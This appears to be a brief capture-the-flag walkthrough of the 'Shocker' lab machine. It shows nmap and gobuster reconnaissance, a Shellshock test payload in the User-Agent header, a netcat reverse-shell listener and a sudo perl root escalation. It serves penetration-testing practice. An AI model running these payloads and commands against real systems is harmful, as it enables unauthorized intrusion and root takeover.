

# Shocker

# Recon

### PortScanning

`nmap -A -sVC -T4 -oN nmap 10.10.10.56`

Lets add the IP to `hosts` file

## Web

After some time trying to find something found the `/cgi-bin/` directory with 403, then just found the file `user.sh`

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -x sh,pl`

Read the contents of that file

### Exploiting

Test for `shellshock` exploit, in my case i used this payload inside the `User-Agent: () { :; }; /bin/bash -c "sleep 5”`

We can verify that it took 5 seconds, so its time to get a reverse shell

Open a netcat listener

`nc -lvnp 1337`

Here set you IP, Port and hit send

Now inside the netcat we got the connection

## Privilege Escalation

Check what we can run as root `sudo -l`

We can run perl as root, by running `sudo /usr/bin/perl -e 'exec "/bin/sh";’` we are root

